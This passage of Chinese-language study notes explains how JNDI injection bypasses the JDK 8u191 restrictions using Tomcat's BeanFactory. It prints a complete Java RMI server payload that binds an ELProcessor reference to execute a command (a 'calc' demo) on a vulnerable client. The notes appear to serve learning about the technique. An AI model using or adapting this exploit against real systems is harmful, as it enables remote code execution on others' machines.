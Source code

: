3. 别忘了开启 HTTP 服务。

## 4. JDK 8u191 之后的绕过

1. 思想（两个方向）：

    > 找到一个受害者本地`CLASSPATH`中的类作为恶意的`Reference Factory`工厂类，并利用这个本地的`Factory`类执行命令。
    >
    > 利用`LDAP`直接返回一个恶意的序列化对象，`JNDI`注入依然会对该对象进行反序列化操作，利用反序列化`Gadget`完成命令执行。
    >
    > https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

2. 简单点说，就是着重点从 Codebase 转移到 Factory，找他使用的、实现 `ObjectFactory` 或者 `DirObjectFactory` 两种接口的工厂类。

### 4.1 借助 Tomcat 的 `BeanFactory` 类（Tomcat 8.5.78，87 是用不了，todo 具体哪个版本修复）

1. 参考：

    > https://paper.seebug.org/942/
    > https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/#%E5%88%A9%E7%94%A8%E6%9C%AC%E5%9C%B0%E6%81%B6%E6%84%8FClass%E4%BD%9C%E4%B8%BAReference-Factory
    >
    > https://tttang.com/archive/1405/

2. “为什么”使用 `BeanFactory`，因为他的方法有动态性，即通过反射或者类加载来执行代码。那么用户就可以通过控制输入的内容来控制反射或者类加载的结果。

#### 4.1.1 流程分析

1. 先给出 payload：
    ```java
    package com.endlessshw.server;
    
    import com.sun.jndi.rmi.registry.ReferenceWrapper;
    import org.apache.naming.ResourceRef;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    import javax.naming.StringRefAddr;
    import java.rmi.AlreadyBoundException;
    import java.rmi.RemoteException;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 利用 BeanFactory 绕过 8u191，使用 RMI 作为服务器
     * @date 2023/5/14 10:07
     */
    public class JNDIBypassServer {
        public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
            Registry registry = LocateRegistry.createRegistry(1099);
            InitialContext initialContext = new InitialContext();
            // 实例化 Reference，指定目标类为 javax.el.ELProcessor，工厂类为 org.apache.naming.factory.BeanFactory
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
            ref.add(new StringRefAddr("forceString", "x=eval"));
            // 利用表达式执行命令
            ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"calc\")"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            initialContext.rebind("rmi://localhost:1099/myRemote", referenceWrapper);
        }
    }